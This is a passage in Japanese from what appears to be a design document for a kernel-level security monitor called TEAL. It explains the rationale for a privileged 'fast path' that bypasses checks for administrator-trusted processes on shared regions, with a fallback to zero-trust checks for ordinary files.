* **防御根拠:** これらの領域は他のプロセスと共有されるため、無条件バイパスは上記のコンテナエスケープ等の攻撃を許す。したがって、TEALはこれを通常は厳格に監視する。ただし、管理者がポリシーで明示的に `SILENT_IO` 特権（VIPパス）を付与した「信頼されたプロセス（およびその子プロセス）」によるアクセスであった場合のみ、安全とみなしてカーネル内で即時許可（Fast Path）する。
* **効果:** ログストームを引き起こす正規の巨大アプリケーションのパフォーマンスを維持しつつ、マルウェア等による共有領域への不正アクセスを完全にブロックする。

対象ファイルが Tier 1 にも Tier 2 にも該当しない通常ファイル（ext4等の永続ストレージ）であった場合は、プロセスが特権を保持していてもFast Pathは適用されず、TEALの厳密なゼロトラスト判定へフォールバックする。


